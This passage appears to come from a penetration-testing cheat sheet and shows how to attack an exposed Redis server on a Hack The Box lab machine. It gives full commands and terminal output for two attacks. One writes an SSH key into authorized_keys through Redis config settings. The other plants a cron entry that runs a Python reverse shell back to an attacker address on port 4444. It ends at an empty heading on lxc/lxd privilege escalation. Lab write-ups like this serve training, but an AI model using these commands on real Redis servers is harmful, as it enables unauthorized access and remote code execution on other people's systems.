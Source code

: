 ### Redis

* SSH

1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
2. Write the public key to a file : `(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`
3. Import the file into redis : `cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key`
4. Save the public key to the authorized_keys file on redis server:

```
kali@bughunt3r:~/htb/machines/postman$ echo "FLUSHALL" | redis-cli -h 10.10.10.160
OK                                                                                                        
kali@bughunt3r:~/htb/machines/postman$ cat ~/.ssh/id_rsa.pub | redis-cli -h 10.10.10.160 -x set ssh_key
OK                               
kali@bughunt3r:~/htb/machines/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename authorized_keys
OK
10.10.10.160:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
10.10.10.160:6379> save
OK

```
```
ssh -i ~/.ssh/id_rsa redis@10.10.10.160
```


* `RCE`
```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.16.10\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.10.10.160 -x set 1
OK
root@Urahara:~# redis-cli -h 10.10.10.160 config set dir /var/spool/cron/
OK
root@Urahara:~# redis-cli -h 10.10.10.160 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.10.10.160 save
OK
```


-------------------------------------------------------------------------------------------------------
# lxc/lxd Privilege Escalation
